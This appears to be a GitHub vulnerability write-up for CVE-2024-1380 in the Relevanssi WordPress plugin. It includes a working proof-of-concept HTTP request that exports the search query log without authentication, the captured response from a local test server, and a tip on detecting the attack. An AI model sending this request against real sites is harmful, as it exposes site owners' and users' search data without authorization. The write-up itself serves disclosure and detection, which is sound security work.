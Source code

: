 # CVE-2024-1380
Relevanssi – A Better Search &lt;= 4.22.0 - Missing Authorization to Unauthenticated Query Log Export


Description
---
The Relevanssi – A Better Search plugin for WordPress is vulnerable to unauthorized access of data due to a missing capability check on the relevanssi_export_log_check() function in all versions up to, and including, 4.22.0. This makes it possible for unauthenticated attackers to export the query log data. The vendor has indicated that they may look into adding a capability check for proper authorization control, however, this vulnerability is theoretically patched as is.

References
---
[plugins.trac.wordpress.org](https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&old=3033880%40relevanssi&new=3033880%40relevanssi&sfp_email=&sfph_mail=)

POC
---

Request

```
POST /wp-admin/options-general.php?page=relevanssi%2Frelevanssi.php&tab=logging HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/options-general.php?page=relevanssi%2Frelevanssi.php&tab=logging
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: http://kubernetes.docker.internal
Connection: keep-alive

tab=logging&relevanssi_omit_from_logs=&relevanssi_trim_logs=&relevanssi_export=Export+the+log+as+a+CSV+file
```

Response

```
HTTP/1.1 200 OK
Date: Wed, 25 Sep 2024 14:46:13 GMT
Server: Apache/2.4.57 (Debian)
X-Powered-By: PHP/8.2.11
Expires: Tue, 03 Jul 2001 06:00:00 GMT
Cache-Control: max-age=0, no-cache, must-revalidate, proxy-revalidate
Last-Modified: Wed, 25 Sep 2024 14:46:14 GMT
Content-Disposition: attachment;filename=relevanssi_log.csv
Content-Transfer-Encoding: binary
Content-Length: 29
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/download

"No search keywords logged."
```

I would match against filename=relevanssi_log.csv if you are looking for this in the wild as i've not done anything with the plugin.
